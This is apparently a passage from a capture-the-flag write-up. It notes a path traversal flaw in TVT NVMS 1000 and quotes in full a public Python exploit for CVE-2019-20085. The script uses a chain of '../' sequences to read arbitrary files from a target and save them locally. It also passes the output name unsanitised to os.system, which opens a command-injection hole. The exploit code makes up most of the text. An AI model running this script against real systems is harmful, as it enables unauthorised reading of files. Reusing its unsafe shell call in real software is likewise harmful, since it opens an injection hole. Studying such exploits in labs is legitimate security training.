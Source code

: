<br />

Apparently, this application is vulnerable to a `path traversal` (LFI).

Let's take a look at the Python script to understand the `vulnerability` and exploit it manually:

<br />

```python 
# Exploit Title: TVT NVMS 1000 - Directory Traversal
# Date: 2020-04-13
# Exploit Author: Mohin Paramasivam (Shad0wQu35t)
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html
# Original Author : Numan Türle
# CVE : CVE-2019-20085

import sys
import requests
import os
import time

if len(sys.argv) !=4:
	print "  "
	print "Usage : python exploit.py url filename outputname"
	print "Example : python exploit.py http://10.10.10.10/ windows/win.ini win.ini"
	print "	"
else:


	traversal = "../../../../../../../../../../../../../"
	filename = sys.argv[2]
	url = sys.argv[1]+traversal+filename
	outputname = sys.argv[3]
	content = requests.get(url)

	if content.status_code == 200:

		print " "
		print "Directory Traversal Succeeded"
		time.sleep(3)
		print " "
		print "Saving Output"
		os.system("touch " + outputname)
		output_write = open(outputname,"r+")
		output_write.write(content.text)
		output_write.close()

	else:

		print "Host not vulnerable to Directory Traversal!"
```
